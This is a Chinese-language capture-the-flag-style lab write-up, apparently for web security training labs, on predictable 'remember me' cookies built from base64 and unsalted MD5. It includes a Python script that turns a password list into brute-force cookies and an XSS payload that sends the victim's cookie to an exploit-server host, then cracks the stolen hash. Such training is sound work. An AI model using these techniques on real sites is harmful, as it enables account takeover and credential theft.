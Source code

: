 ### 让用户保持登陆状态

Web 程序一个常见的功能是，即使用户关闭了浏览器会话，也能保持登陆状态。

这种功能通常是生成 “记住我” 的令牌，然后存储在一个持久性 Cookie 中，由于拥有这个 Cookie 就能绕过登录过程，所以开发者需要做的就是让这个 Cookie 难以猜中。

然而有些网站根据一些可预测的静态值拼接 Cookie，如：用户名和时间戳，甚至将密码作为 Cookie 的一部分。如果攻击者弄清了 Cookie 的生成规则，他们可以通过暴力破解的方式猜测 Cookie。

另外 Cookie 中可能出现 base64 或 hash 函数。

base64 仅数据格式转换，无加密作用。hash 函数如果没有加盐，且容易识别，也很危险。

##### 什么是盐？

盐是随机生成的字符串，如：d8%f2Lq#9zK。

在用户密码被 hash 加密前，将盐与密码混合，使得即使两个相同的密码也能运算出不同的哈希值。

- 用户A盐：`d8%f2Lq#9zK` → 密码+盐 = `123456d8%f2Lq#9zK` → 哈希值：`a3f5d...`
- 用户B盐：`p@6T!mX3vR` → 密码+盐 = `123456p@6T!mX3vR` → 哈希值：`9b2e7...`

盐通常明文存储在数据库中，与用户对应。

### 实验

用户登录后，使用持久性 Cookie 访问此网站（我测试过，这里的 session 可以随便改）。

![image-20250501104049815](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%A4%B1%E6%95%88%E7%9A%84%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81/images/image-20250501104049815.png)

```python
# base64 解密
import base64
base64_str = "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw"
base64_bytes = base64_str.encode()
bytes_str = base64.b64decode(base64_bytes)
str = bytes_str.decode()
print(str)
```

```
输出：wiener:51dc30ddc473d43a6011e9ebba6ca770
```

```python
# 对密码进行哈希运算，看是否 cookie 相同。
import hashlib
def md5_encrypt(text):
    return hashlib.md5(text.encode()).hexdigest()

def sha1_encrypt(text):
    return hashlib.sha1(text.encode()).hexdigest()

def sha256_encrypt(text):
    return hashlib.sha256(text.encode()).hexdigest()

# 示例文本
input_text = "peter"
print("MD5:", md5_encrypt(input_text))
print("SHA - 1:", sha1_encrypt(input_text))
print("SHA - 256:", sha256_encrypt(input_text))
```

```
输出：
MD5: 51dc30ddc473d43a6011e9ebba6ca770
SHA - 1: 4b8373d016f277527198385ba72fda0feb5da015
SHA - 256: 026ad9b14a7453b7488daa0c6acbc258b1506f52c441c7c465474c1a564394ff

可以看到，Cookie 仅仅对用户密码作了 md5 加密和 base64 编码。
```

制作：Cookie 字典

```python
import hashlib
import base64

def base64_encode(str):
    bytes_str = str.encode()
    base64_bytes = base64.b64encode(bytes_str)
    byte64_str = base64_bytes.decode()
    return  byte64_str

with open("passwd.txt","r") as f:
    lines = f.readlines()
    lines = [line.strip('\n') for line in lines]
    print(lines)


cookie_list = []
for index, value in enumerate(lines):
    md5_value = hashlib.md5(value.encode()).hexdigest()     # 密码进行 md5 加密.
    cookie_str = "carlos:" + md5_value
    cookie_base64 = base64_encode(cookie_str)
    cookie_list.append(cookie_base64 + "\n")

with open("cookie.txt","w") as f:
    f.writelines(cookie_list)

```

![image-20250501110620362](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%A4%B1%E6%95%88%E7%9A%84%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81/images/image-20250501110620362.png)

![image-20250501110554023](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%A4%B1%E6%95%88%E7%9A%84%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81/images/image-20250501110554023.png)

### 实验2

这个靶场跟上面那个靶场使用的 cookie 格式完全一样。

xss 抓到 cookie。

```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

![image-20250501120456281](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%A4%B1%E6%95%88%E7%9A%84%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81/images/image-20250501120456281.png)



```
Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz 这个不在我们之前生成的 cookie.txt 中，说明密码不在官方给的密码字典中。
```

![image-20250501121000282](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%A4%B1%E6%95%88%E7%9A%84%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81/images/image-20250501121000282.png)

```
# Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz 进行 base64 解码 
carlos:26323c16d5f4dabff3bb136f2460a943

# 将 26323c16d5f4dabff3bb136f2460a943 直接丢到 hashes.com 中在线解密。
```

![image-20250501120432045](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%A4%B1%E6%95%88%E7%9A%84%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81/images/image-20250501120432045.png)

```
carlos:onceuponatime
```

